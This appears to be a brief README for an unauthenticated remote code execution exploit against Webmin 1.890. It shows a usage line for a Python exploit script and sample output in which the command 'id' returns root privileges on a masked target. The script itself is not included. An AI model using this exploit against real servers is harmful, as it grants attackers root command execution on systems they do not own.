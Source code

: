 # WebMin-1.890-Unauthenticated-RCE

USAGE: python3 exploit.py [TARGET IP] [COMMAND]

Example Output:
python3 exploit.py 1**.2*.*.*** id

&lt;h1&gt;Error - Perl execution failed&lt;/h1&gt;<br>
&lt;p&gt;Your password has expired, and a new one must be chosen.<br>
uid=0(root) gid=0(root) groups=0(root)<br>
&lt;/p&gt;


  
